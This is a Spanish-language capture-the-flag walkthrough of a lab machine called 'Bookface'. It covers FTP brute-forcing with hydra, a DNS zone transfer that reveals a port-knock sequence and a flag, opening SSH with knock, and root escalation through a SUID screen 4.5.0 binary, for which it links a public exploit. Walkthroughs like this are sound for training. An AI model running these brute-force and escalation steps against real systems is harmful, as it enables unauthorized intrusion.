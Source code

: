 # Bookface
## Initial Scan

Tenemos abiertos casi todos los puertos, de hecho todos menos el ssh que esta filtrado

## Enum
```
Jerry is a new developer and has made a few mistakes!
```
Parece un user vamos a testarlo en los principales servicios ftp,httpauth,smb

### FTP
```
hydra -l jerry -P /home/pj/rockyou.txt ftp://10.10.164.44 -t 64
```
Dentro tenemos
```
dr-xr-xr-x    2 1001     1001         4096 Feb 23  2019 .
dr-xr-xr-x    2 1001     1001         4096 Feb 23  2019 ..
-rw-r--r--    1 1001     1001          220 Feb 23  2019 .bash_logout
-rw-r--r--    1 1001     1001         3771 Feb 23  2019 .bashrc
-rw-r--r--    1 1001     1001          655 Feb 23  2019 .profile
-rw-------    1 1001     1001          608 Feb 23  2019 .viminfo
-rwxr-xr-x    1 0        0              33 Feb 23  2019 flag1
-rw-rw-r--    1 1001     1001          141 Feb 23  2019 note
```
En note tambien tenemos información importante
```
Jerry, I finally got a chance to update our internal social media platform (bookface.com).
```
Podemos checkear esta URL en el servidor DNS o conectarnos al HTTP mediante esa direccion modificanfo el /etc/hosts
### DNS
Checkeamos la URL
```
 dig axfr bookface.com @IP
```
Y obtenemos lo siguiente
```
bookface.com.		10800	IN	TXT	"Ports: 6786 9893 8748 3443 - Who cares about order tho right?"
bookface.com.		10800	IN	TXT	"Flag2:a17f17ba86d8271da60ed8436667f412"
```
### SSH
Lo primero es conseguir abrir el puerto
```
knock 10.10.164.44 8748 9893 6786 3443
```
Una vez abierto podemos checkear reutilizacion de creds, cosa que ocurre

Una vez dentro la flag 3 esta en /home

## Privesc

Mirando los SUID encontramos este
```
/bin/screen-4.5.0/screen-4.05.0
```
Para el cual existe un exploit bien conocido
```
https://www.exploit-db.com/exploits/41154
```
Pasamos el exploit a la máquina usando un servidor HTTP de Python y ya estaría
